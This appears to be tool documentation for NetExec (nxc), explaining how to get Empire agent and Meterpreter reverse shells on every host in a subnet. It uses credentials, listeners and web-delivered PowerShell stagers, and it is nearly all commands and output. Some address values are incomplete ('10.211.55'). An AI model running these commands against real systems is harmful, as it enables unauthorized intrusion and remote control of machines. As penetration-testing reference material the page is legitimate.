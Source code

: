 # Getting Shells 101

## Getting Shells 101

We all love shells and that's why nxc makes it as easy as possible to get them! There really is something magical about shelling a /24

## Empire Agent

{% hint style="info" %}
Use the new Empire in Python3 [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)
{% endhint %}

We can use the `empire_exec` module to execute an Empire Agent's initial stager. In the background, the module connects to Empire's RESTful API, generates a launcher for the specified listener and executes it.

* First setup the rest API:

```bash
python powershell-empire --rest --user empireadmin --pass Password123!
[*] Loading modules from: /home/mpgn/Tools/Empire/lib/modules/
 * Starting Empire RESTful API on port: 1337
 * RESTful API token: l5l051eqiqe70c75dis68qjheg7b19di7n8auzml
 * Running on https://0.0.0.0:1337/ (Press CTRL+C to quit)
```

* Second setup a listener:

```bash
(Empire: listeners) > set Name test
(Empire: listeners) > set Host 192.168.10.3
(Empire: listeners) > set Port 9090
(Empire: listeners) > set CertPath data/empire.pem
(Empire: listeners) > run
(Empire: listeners) > list

[*] Active listeners:

  ID    Name              Host                                 Type      Delay/Jitter   KillDate    Redirect Target
  --    ----              ----                                 -------   ------------   --------    ---------------
  1     test              http://192.168.10.3:9090                 native    5/0.0                      

(Empire: listeners) > 
```

The username and password that nxc uses to authenticate to Empire's RESTful API are stored in the nxc.conf file located at \~/.nxc/nxc.conf:

```bash
[Empire]
api_host=127.0.0.1
api_port=1337
username=empireadmin
password=Password123!

[Metasploit]
rpc_host=127.0.0.1
rpc_port=55552
password=abc123
```

* Then just run the `empire_exec` module and specify the listener name:

```bash
nxc 192.168.10.0/24 -u username -p password -M empire_exec -o LISTENER=test
```

## Meterpreter

We can use the `metinject` module launch a meterpreter using [Invoke-MetasploitPayload](https://github.com/jaredhaight/Invoke-MetasploitPayload) `Invoke-MetasploitPayload.ps1` script.

On your Metasploit instance, run the following commands

```bash
use exploit/multi/script/web_delivery
```

The SRVHOST and SRVPORT variables are used for running the webserver to host the script

```bash
set SRVHOST 10.211.55
set SRVPORT 8443
```

The `target` variable determines what type of script we're using. `2` is for PowerShell

```bash
set target 2
```

Pick your payload. In this case, we'll use a reverse https meterpreter payload

```bash
set payload windows/meterpreter/reverse_https
set LHOST 10.211.55
set LPORT 443
```

Run the exploit

```bash
run -j
```

Once run, the web\_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.

```bash
msf exploit(web_delivery) > run -j
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://10.211.55.4:8443/
[*] Using URL: http://10.211.55.4:8080/eYEssEwv2D
[*] Local IP: http://10.211.55.4:8080/eYEssEwv2D
[*] Server started.
```

* Then just run the `met_inject` module and specify the LHOST and LPORT values:

```bash
nxc 192.168.10.0/24 -u username -p password -M met_inject -o SRVHOST=192.168.10.3 SRVPORT=8443 RAND=eYEssEwv2D SSL=http
```
